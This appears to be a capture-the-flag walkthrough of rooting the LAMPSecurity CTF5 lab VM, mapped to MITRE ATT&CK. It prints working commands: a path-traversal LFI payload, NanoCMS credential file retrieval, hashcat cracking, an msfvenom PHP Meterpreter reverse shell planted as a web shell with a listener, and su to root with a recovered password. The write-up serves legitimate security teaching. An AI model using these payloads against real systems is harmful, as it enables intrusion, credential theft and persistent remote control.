






# **Attack on LAMPSecurity CTF5 Virtual Machine**

---

### **Preliminary information**

- The attacking machine is a Kali VM in the same network of the target machine
- The target machine is a VM that can be downloaded at https://www.vulnhub.com/entry/lampsecurity-ctf5,84/
- The **objective** of the attack is: Gaining root privileges on the target machine
- The **threat model** is: The attacker can communicate with the target machine, without any prior credentials
- The attack will be described in terms of the MITRE ATT&CK framework (Tactics and Techniques)
- This activity is based on the walkthrough that can be found at the following link: https://www.hackingarticles.in/hack-the-lampsecurity-ctf-5-ctf-challenge/
- The privilege escalation phase follows an alternative approach described at: https://highon.coffee/blog/lamp-security-ctf5-walkthrough/#linux-local-enumeration
- Note: the sections follow the chronological order of the attack rather than grouping actions by tactic. As a result, some MITRE tactics (notably **Discovery** and **Credential Access**) recur across more than one section, because the attack genuinely returns to them at different stages of the kill chain.

---

### **Discovery**

The first phase consists in finding information about the target that is useful for performing initial access. I will use `nmap`, a network exploration tool installed by default on Kali. The first command to execute is `ifconfig`, which allows to see the IP address of the attacker machine (`192.168.56.101`) and to determine the network subnet. To obtain the IP address of the target machine, I execute:

```
nmap 192.168.56.0/24
```

This command tries to contact all IP addresses in the specified subnet and lists for each of them the reachable port numbers.



#### Remote System Discovery

The IP address of the target machine is `192.168.56.104`.

#### Network Service Discovery

Since the LAMPSecurity series is known to be based on web application vulnerabilities, the scan is focused exclusively on port 80 rather than performing a full port sweep. This makes the reconnaissance phase faster and less noisy:

```
nmap -sV -p 80 192.168.56.104
```

The flag `-sV` instructs nmap to detect the version of the software running on the specified port, and `-p 80` restricts the scan to port 80 only. The result confirms that an **Apache 2.2.6** HTTP server is running on the target, which is the entry point for the attack.



By visiting `http://192.168.56.104` in the browser, a website for a fictional organization called "Phake Organization" is presented. The URL structure reveals that pages are loaded dynamically using a `?page=` parameter, for example `http://192.168.56.104/?page=about`.

---

### **Initial Access**

#### Exploit Public-Facing Application → Local File Inclusion

To verify the presence of vulnerability, a web vulnerability scanner called `nikto` is executed:

```
nikto -h 192.168.56.104
```



The scan returns several findings. Among them, one entry stands out as particularly relevant:
 
```
+ /index.php: PHP include error may indicate local or remote file inclusion is possible.
```
 
This is not a ready-made exploit nikto only signals that the behavior of `index.php` is consistent with dynamic file inclusion, without providing any example URL or payload. The hint is enough to guide further manual investigation.
 
Inspecting the website URLs reveals that every page is loaded through the `page` parameter: for example, the About page is accessed at `http://192.168.56.104/?page=about`.
We can directly use the value of this parameter to include a file from the filesystem, with a path traversal payload:

```
http://192.168.56.104/index.php?page=../../../../../../../../../etc/passwd%00
```

The `../` sequences traverse the directory tree upward from the web root toward the filesystem root, and `/etc/passwd` is chosen as the target because it is a well-known readable file present on every Linux system. The `%00` at the end is a URL-encoded null byte preventing the `.php` extension from being appended. The response includes the content of `/etc/passwd`, confirming the LFI vulnerability. This file reveals the list of system users: `andy`, `patrick`, `jennifer`, `loren`, and `amy`. 

---

### **Credential Access**

#### Credentials In Files → NanoCMS Password Hash Disclosure

While browsing the website, one of the links leads to a personal blog belonging to the user `andy`, served at `http://192.168.56.104/~andy/`. The `~andy` form is a personal user directory exposed by Apache's *UserDir* module, which maps a `~username` URL to that user's public web folder; the username also matches one of those disclosed earlier through `/etc/passwd`. At the bottom of Andy's blog page, the text "Powered by NanoCMS" is visible. NanoCMS is a lightweight PHP content management system. A search for known vulnerabilities reveals Security Review of NanoCMS, which describes an information disclosure flaw: NanoCMS stores its admin credentials including the password hash in a file called `data/pagesdata.txt`, which is publicly accessible without authentication.

The file is retrieved directly:

```
curl http://192.168.56.104/~andy/data/pagesdata.txt
```



The serialized PHP output contains the administrator credentials:

```
...s:8:"username";s:5:"admin";s:8:"password";s:32:"9d2f75377ac0ab991d40c91fd27e52fd";...
```

The 32-character hexadecimal string is the MD5 hash of the administrator password.

#### Brute Force → Password Cracking

To recover the plaintext password from the hash, `hashcat` is used with the `rockyou.txt` wordlist. Hashcat works by computing the hash of each word in the dictionary and comparing it against the target hash:

```
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

The flag `-m 0` specifies the MD5 hash type and `-a 0` specifies a dictionary attack. The result is obtained in seconds, and this speed is a direct consequence of the hash algorithm: MD5 is extremely fast to compute and the stored hash is **unsalted**, so a GPU can test billions of candidate words per second and burn through a wordlist like rockyou.txt almost instantly. The absence of a salt also means there is no per-user work factor to slow the attack down:



The hash `9d2f75377ac0ab991d40c91fd27e52fd` corresponds to the password `shannon`. The admin credentials for NanoCMS are therefore `admin:shannon`.

---

### **Persistence**

#### Server Software Component → Web Shell

The NanoCMS admin panel is located at `/~andy/data/nanoadmin.php`. Logging in with `admin:shannon` grants access to the content management interface, which includes the ability to create new blog pages with arbitrary PHP content.

A reverse shell payload is generated using `msfvenom`:

```
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.56.101 lport=4444 -f raw
```

Breaking down the command:
- `-p php/meterpreter/reverse_tcp` — the payload type: PHP code that opens a Meterpreter session over a reverse TCP connection, meaning the target connects back to the attacker rather than the other way around
- `lhost=192.168.56.101` — the IP address of the attacker machine
- `lport=4444` — the port on which the attacker will listen
- `-f raw` — output format: raw PHP code, ready to be pasted directly

The generated PHP code is pasted as the content of a new page created in the NanoCMS admin panel.



It is worth clarifying in what sense this qualifies as a web shell. The planted PHP page is a malicious script placed on the web server and triggered on demand by an HTTP request, which is exactly what MITRE classifies as a web shell used for persistence (T1505.003). What distinguishes this implementation from a *classic* interactive web shell is the command channel: a traditional web shell both receives commands and returns their output over HTTP, whereas here the HTTP request merely *triggers* the script, which then opens a TCP connection back to the attacker. From that point on, commands are exchanged over this reverse TCP connection rather than through HTTP.

---

### **Execution**

#### Command and Scripting Interpreter

Before triggering the payload by visiting the new page, a Metasploit listener is configured on the attacker machine to receive the incoming connection:

```
msfconsole -q
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.56.101
set LPORT 4444
exploit
```

Navigating to the newly created page in the browser causes the server to execute the PHP payload, which connects back to the Metasploit listener. A Meterpreter session is opened.


The `getuid` command confirms the current user: `apache` (uid=48). Dropping to a system shell with the `shell` command reveals another problem: the shell obtained is a *limited shell*, also called a dumb shell. It has no job control, no tab completion, and critically cannot run `su` because it is not associated with a real terminal. Running `su -` immediately fails with:

```
standard in must be a tty
```

This error occurs because programs like `su` that read sensitive input (such as passwords) explicitly check that they are running on a real terminal. To bypass this, Python is used to spawn a pseudo-terminal:

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

The Python `pty` module creates a pseudo-terminal that tricks subsequent programs into believing they are running on a real interactive terminal, resolving the error.

---

### **Discovery**

#### File and Directory Discovery → Linux Local Enumeration

With a functional shell, the next objective is to find a path to root privileges through local enumeration. This means systematically inspecting the filesystem for information that can be leveraged for privilege escalation, such as configuration files containing credentials, incorrectly set file permissions, or sensitive data left by users.

The following command searches recursively for the string "password" in all user home directories:

```
grep -R -i password /home/*
```

The flag `-R` enables recursive search across all subdirectories, and `-i` makes the search case-insensitive. The reason this search succeeds across other users' files is a permissions misconfiguration: the home directories are created with `755` permissions (`drwxr-xr-x`), which means any user on the system, including `apache`, can read the contents of other users' home directories.

The output reveals that inside the home directory of user `patrick` there is a hidden folder `.tomboy` containing a note file whose title includes the string "Root password".


---

### **Credential Access**

#### Credentials In Files → Root Password in Tomboy Notes

The note file is read directly:

```
cat "/home/patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note"
```

The file is a standard Tomboy XML note file. Tomboy is a note-taking application, it saves notes as plain XML files under `~/.tomboy/`. The content of the note reveals the root password stored in plaintext: `50$cent`.

This is not a technical vulnerability in Tomboy itself, but rather the result of poor credential management by the user: a system administrator stored the root password as a personal note without considering that the home directory permissions allowed any other system user to read it.

---

### **Privilege Escalation**

#### Valid Accounts → Local Accounts

With the root password recovered, privilege escalation is straightforward. Using the shell already upgraded to a pseudo-TTY:

```
su -
```

Entering `50$cent` when prompted for the password succeeds immediately.


```
[root@localhost ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),...
```

Root access is obtained. The objective of the challenge is complete.

The technique used here is *misconfiguration-based* local privilege escalation: rather than exploiting a kernel vulnerability or a SUID binary, root access was achieved by leveraging credentials found in plaintext due to incorrect filesystem permissions.

---

### **Sources**

- HackingArticles — Hack the LAMPSecurity: CTF5 CTF Challenge: https://www.hackingarticles.in/hack-the-lampsecurity-ctf-5-ctf-challenge/
- HighOn.Coffee — LAMP Security CTF5 Walkthrough: https://highon.coffee/blog/lamp-security-ctf5-walkthrough/
- LAMPSecurity CTF5 official PDF (madirish2600): http://download.vulnhub.com/lampsecurity/lampsec_ctf5.pdf
- Vulners — NanoCMS Information Disclosure: https://vulners.com/openvas/OPENVAS:100141
- NanoCMS Security Review (madirish.net): https://www.madirish.net/304
